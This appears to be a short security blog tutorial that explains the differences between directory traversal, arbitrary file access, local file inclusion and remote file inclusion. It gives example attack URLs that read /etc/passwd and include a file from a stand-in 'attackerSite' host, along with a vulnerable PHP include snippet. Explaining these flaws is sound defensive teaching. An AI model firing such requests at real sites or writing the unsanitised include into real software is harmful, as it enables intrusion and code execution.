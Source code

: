 ```yaml
---
title: Local file inclusion & remote file inclusion
categories: Vulnerabilities
date: 2020-02-09 
author: shiva G prasadh
published: true
---
```

 
Sometime you might be confused when you think about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. Lets discuss about the differences.  
 
### [](#header-5) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
### [](#header-3) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
### [](#header-3) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

* * *
 
### [](#header-3) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
In this example the path is extracted from the HTTP request and no input validation is done.
http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL
```
